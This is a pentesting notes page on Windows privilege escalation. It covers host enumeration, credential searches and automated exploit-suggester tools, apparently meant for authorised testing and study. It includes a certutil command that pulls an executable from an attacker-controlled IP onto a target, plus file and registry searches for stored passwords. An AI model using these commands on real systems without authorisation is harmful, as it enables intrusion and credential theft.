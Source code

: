 ```yaml
---
layout: default
title: Windows Privilege Escalation
nav_order: 2
has_children: false
parent: Privilege Escalation
grand_parent: Pentesting
---
```


##  Windows Privilege Escalation :

Resources: 

- [Fuzzy Security Guide](https://www.fuzzysecurity.com/tutorials/16.html)
- [PayloadsAllTheThings Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
- [Sushant 747's Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [TCM Guide](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

### Helpers 
#### Simple Web Server
```bash
sudo python3 -m http.server
```

#### Download file

```powershell
certutil -urlcache -f http://<YOUR_IP>/<YOUR_EXE> <DESTINATION>
```

#### WinPeas

Will automate the privilege escalation detection: 
- [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](  https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

#### TTY Shell

- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)


### Enumeration

#### External
```bash
nmap -Pn -n -p- -A --min-rate 4000 --open -sCV <IP> -oN <FILE>.nmap
```

#### System Enumertion

```powershell
hostname

systeminfo

ipconfig

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 

## LIST PATCH ON SYSTEM
wmic qe
## LIST DISK
wmic logicaldisk get caption,description,providername 
```

![](/writings/docs/assets/Pasted%20image%2020230315222528.png)
![](docs/assets/Pasted%20image%2020230315222529.png)

#### Users & Groups Enumeration


```powershell
whoami

## Display privileges
whoami /priv

## Display groups
whoami /groups

## Display user of the machine
net user

## Display information about a user
net user <USER>

##Get information about group
net localgroup administrators
```

![](/writings/docs/assets/Pasted%20image%2020230315222308.png)

![](docs/assets/Pasted%20image%2020230315222303.png)

![](/writings/docs/assets/Pasted%20image%2020230315222728.png)
![](docs/assets/Pasted%20image%2020230315222731.png)


#### Network Enumeration

```powershell
## Global network information
ipconfig

## ARP information 
arp -a

## Print routing table
route print

## Print Active connection
netstat -ano
```


#### Password Hunting

```powershell
## Search for password phrase in txt file (could be tweak to search other sensitive information)
findstr /si password *.txt
```


#### AV Enumeration

```powershell
## Search for Windows Defender
sc query windefend

## List all services
sc queryex type= service

## Show firewall state

netsh advfirewall firewall dump

netsh firewall show state

netsh firewall show config

```

#### Automated Tools 

- WinPEAS - [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- Windows PrivEsc Checklist - [https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
- Sherlock - [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)
- Watson - [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)
- PowerUp - [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- JAWS - [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)
- Windows Exploit Suggester - [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- Metasploit Local Exploit Suggester - [https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)
- Seatbelt - [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
- SharpUp - [https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)

##### Metasploit suggester: 

```bash
run post/multi/recon/local_exploit_suggester 
```

![](/writings/docs/assets/Pasted%20image%2020230316184445.png)

![](docs/assets/Pasted%20image%2020230316184446.png)


##### Windows Exploit Suggester 

- Required python2.7
- Required pip2.7
- Required `pip2 install xlrd==1.2.0` 

```bash
# Update the vulnerability DB
python2.7 ./windows-exploit-suggester.py --update

# Run the analysis on the sysinfo extracted
sudo python2.7 ./windows-exploit-suggester.py --database <2023-03-16-mssb.xls> --systeminfo <sysinfo.txt>
```

![](/writings/docs/assets/Pasted%20image%2020230316184352.png)

![](docs/assets/Pasted%20image%2020230316184354.png)



### Kernel Exploits

- [Compilation of Exploits](https://github.com/SecWiki/windows-kernel-exploits)

Search for MS10-XXX to exploit kernel. 

### Passwords and Port Forwarding

Searching in registry:

```powershell

## Search for password in registry
reg query HKLM /f password /t REG_SZ /s

## Check in detail about winlogon (usefull when password from winlogon is returned in registry)
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```